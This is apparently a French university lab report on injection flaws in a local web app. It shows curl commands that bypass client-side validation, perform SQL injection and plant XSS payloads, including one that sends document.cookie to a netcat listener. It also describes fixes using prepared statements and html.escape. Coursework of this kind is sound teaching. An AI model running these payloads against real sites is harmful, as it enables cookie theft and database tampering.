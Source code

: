 # Rendu "Injection"

## Binome

AMIRAT, Nadia, email: nadia.amirat.etu@univ-lille.fr
AMARA, Cyria, email: cyria.amara.etu@univ-lille.fr


## Question 1

* Quel est ce mécanisme :

C'est la méthode javascript <b>validate()</b> qui permet de faire ce mécanisme, elle renvoie un pop lorsqu'on essaye d'insérer une chaine qui ne comporte pas uniquement des lettres et des chiffres.

* Est-il efficace? Pourquoi? 

Est-il efficace : Non.

Justification :
Il y a plusieurs façon de contourner ce problème, par exemple il suffit d'ouvrir la fenêtre inspecter l'element du navigateur et supprimer le contenu du champ : <code>onsubmit:"return validate()"</code> pour avoir <code>onsubmit:""</code>

## Question 2

* Commande Curl pour l'insertion :

<code>curl 'http://127.0.0.1:8080/' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:82.0) Gecko/20100101 Firefox/82.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,/;q=0.8' -H 'Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://127.0.0.1:8080/' -H 'Connection: keep-alive' -H 'Referer: http://127.0.0.1:8080/' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'chaine=test g;%3B+e&submit=OK'</code>

ou bien :

<code>curl -d 'chaine=je teste ;'  "http://localhost:8080";</code>



## Question 3

* Commande curl qui insére une chaine dans la base de données, tout en faisant en sorte que le champ who soit rempli avec ce qu'on veut :

<code>curl -d "chaine=toto','tata')#&submit=OK" http://localhost:8080;</code>


* Expliquez comment obtenir des informations sur une autre table :

La solution serait d'ajouter une requête qui permet d'exploiter la table juste après le point virgule de la requête precedente.

## Question 4

Rendre un fichier server_correct.py avec la correction de la faille de
sécurité.
Expliquez comment vous avez corrigé la faille :
Pour prévenir les injections SQL, il faut faire appel aux requêtes préparées.
Un prepared statement a été mit en place sur le <b>cursor</b> comme suit :
<code>cursor = self.conn.cursor(prepared=True)</code>.
Ensuite, une requête paramétrée a été mise en place et ce en passant la variable de l'entrée de l'utilisateur en tant qu'espace réservé comme suit :
<code>requete = "INSERT INTO chaines (txt) VALUES(%s,%s);"</code>
Il suffit ensuite de récuperer l'entrée de l'utilisateur pour enfin la passer à la requête :
<code>cursor.execute(requete,(post["chaine"],cherrypy.request.remote.ip))</code>


## Question 5

* Commande curl pour afficher une fenetre de dialog :

<code>curl 'http://127.0.0.1:8080/' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:82.0) Gecko/20100101 Firefox/82.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,/;q=0.8' -H 'Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://127.0.0.1:8080/' -H 'Connection: keep-alive' -H 'Referer: http://127.0.0.1:8080/' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'chaine=<script>alert("je suis la fenetre de Dialog")</script>&submit=OK'</code>


* Commande curl pour lire les cookies
    -lancer la commande netcat : on lance la commande nc -l -p 1234 (dans un nouveau terminal pour recevoir les données)
```
curl -d 'chaine=<script>window.location.replace("http://localhost:1234/search?cookie=" %2B document.cookie)</script>'  http://localhost:8080;
```
Rmq : -d pour remplacer : 'http://127.0.0.1:8080/' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:82.0) Gecko/20100101 Firefox/82.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,/;q=0.8' -H 'Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://127.0.0.1:8080/' -H 'Connection: keep-alive' -H 'Referer: http://127.0.0.1:8080/' -H 'Upgrade-Insecure-Requests: 1' --data-raw 

## Question 6

Rendre un fichier server_xss.py avec la correction de la
faille. Expliquez la demarche que vous avez suivi.

On supprime avec la fonction html.escape() tout  caractère qui pourrait être interprété comme du html.
changement du code :
<code>chaine_ip = (html.escape(post["chaine"]), cherrypy.request.remote.ip)</code>

